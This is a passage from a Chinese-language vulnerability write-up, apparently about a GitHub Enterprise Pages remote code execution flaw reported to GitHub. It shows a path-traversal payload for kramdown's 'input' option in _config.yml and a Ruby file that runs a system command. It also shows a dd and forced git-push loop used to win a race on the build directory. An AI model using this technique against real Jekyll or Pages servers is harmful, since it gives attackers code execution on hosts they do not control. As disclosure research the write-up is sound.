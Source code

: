 由于[snake_case](https://github.com/gettalong/kramdown/blob/REL_1_17_0/lib/kramdown/utils.rb#L32)的执行只关心字符串，忽略其他的，这意味着有可能存在目录遍历，导致`require`加载一个不在预定路径上的文件。

我创建了一个内容为`system("echo hi &gt; /tmp/ggg")`的文件`/tmp/evil.rb`，然后用下面的`_config.yml`启动jekyll:

```
markdown: kramdown
kramdown:
  input: ../../../../../../../../../../../../../../../tmp/evil.rb
```

Jekyll 构建失败并报错`jekyll 3.8.5 | Error: wrong constant name ../../../../../../../../../../../../../../../tmp/evil.rb`， 但查看`/tmp/` 里的内容，发现ruby代码被成功执行：

```
$ cat /tmp/ggg
hi
```



## 0x03 漏洞利用

我在GHE服务器上创建了一个页面仓库，添加了`/tmp/evil.rb`，同样成功得到执行。接下来要做的就是想办法把ruby文件放到一个已知的位置，并作为payload使用。我使用[perf-tools](https://github.com/brendangregg/perf-tools)的`opensnoop`工具，在github构建jekyll页面站点时观察路径，发现以下目录：

```
/data/user/tmp/pages/page-build-23481
/data/user/tmp/pages/pagebuilds/vakzz/jekyll1
```

第一个是输入目录，第二个是输出目录，但这两个目录都在进程结束后很快被删除，并复制到一个哈希加密的位置。由于输出目录只基于用户和仓库名，结构相对简单，只需要想办法让它比正常情况下持续的时间更久即可。

我使用`dd if=/dev/zero of=file.out bs=1000000 count=100`创建了五个 100mb 的文件`code.rb`并将它们作为payload添加到 jekyll 站点，然后通过`while true; do git add -A . &amp;&amp; git commit --amend -m aa &amp;&amp; git push -f; done`创建循环。再次观察`/data/user/tmp/pages/pagebuilds/vakzz/jekyll1`目录，发现它存在的时间变长了。

接着创建一个新的站点，并包含一个恶意的`input`，指向jeykll构建的第一个文件夹：

```
markdown: kramdown
kramdown:
  input: ../../../../../../../../../../../../../../../data/user/tmp/pages/pagebuilds/vakzz/jeykll1/code.rb
```

然后把那个仓库也设置成循环的推送和构建。大约一分钟后，文件出现了!

```
$ ls -asl /tmp/ | grep ggg
4 -rw-r--r--  1 pages             pages                3 Aug 19 13:58 ggg4
```

我写好漏洞报告，将其发送给GitHub，报告以惊人的速度进行了分流（30分钟内）。几个小时后，我收到回复，说他们正在努力强化Kramdown选项，并询问是否知道还有其他应该被限制的选项。

唯一看起来有点可疑的选项是[formatter_class](https://github.com/gettalong/kramdown/blob/REL_1_17_0/lib/kramdown/converter/syntax_highlighter/rouge.rb#L62) (作为[syntax_highlighter_opts](https://kramdown.gettalong.org/options.html#option-syntax-highlighter-opts)的一部分设置)，但它只允许字母数字，然后用`:Rouge::Formatters.const_get`进行查询：
